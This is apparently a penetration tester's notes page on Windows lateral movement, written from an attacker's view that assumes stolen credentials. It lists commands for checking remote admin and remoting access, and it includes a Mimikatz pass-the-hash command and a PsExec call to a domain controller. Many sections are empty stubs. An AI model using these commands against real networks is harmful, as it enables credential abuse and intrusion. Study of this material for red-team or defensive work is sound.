 # Lateral Movement

The adversary is trying to move through your environment.

Lateral Movement consists of techniques that adversaries use to enter and control remote systems on a network.

Following through on their primary objective often requires exploring the network to find their target and subsequently gaining access to it. Reaching their objective often involves pivoting through multiple systems and accounts to gain. Adversaries might install their own remote access tools to accomplish Lateral Movement or use legitimate credentials with native network and operating system tools, which may be stealthier.

**Assumptions**

- We already obtained access to the internal environment.
- We are in possess of credential material for one or more users.
- We (optionally) obtained elevated access to one or more machines by unspecified means.

The techniques answer the question - **What type of access can I achieve with the current compromised user?**

When talking about local group membership, we will be mostly interested in being part of the following groups:

- Administrators
- Remote Desktop Users
- Remote Management Users
- Distributed COM Users

#### To check if user is part of Administrators group

The easiest way of determine whether we have local admin access (and therefore we’re part of the local Administrators group) to a remote machine is to attempt to list the content of the C: drive using the following command:

For a single machine

`dir \\<ip or hostname>\C$`

`powershell.exe Get-WMIObject -Class win32_operatingsystem -Computername <ip or hostname>`

For multiple machines

PowerView’s cmdlet Find-LocalAdminAccess that will simply output the machines where the current user have admin privileges.

#### To check if user is part of Remote Management Users

`Invoke-Command -Computername <ip or hostname> -ScriptBlock {whoami}`

#### To check if user is part of Remote Desktop Users

Attempt to RDP. Simple!

#### Check user's local groups

`whoami /groups`

### Access to File Shares

### Access Control Lists

### MSSQL Access

### WMI

### Remote Service Creation

### Remote Desktop Protocol

### PowerShell Remoting

### Password Spray

### RDP Session Hijack

### Pass The Hash
#### MIMIKATZ

`sekurlsa::pth /user:jeff /domain:hackerlab.com /ntlm:HASH /run:cmd.exe`

Verify. check if you can run commands on DC

`PsExec.exe \\<IP of DC> cmd.exe`

#### Impacket
#### XFreeRDP
#### CrackMapExec 



reference the cheatsheet

### Pass-the-Ticket

**Windows Lateral Movement** 

- Lateral Movement Article https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/
- Pass the hash with Mimikatz https://blog.netwrix.com/2021/11/30/passing-the-hash-with-mimikatz/

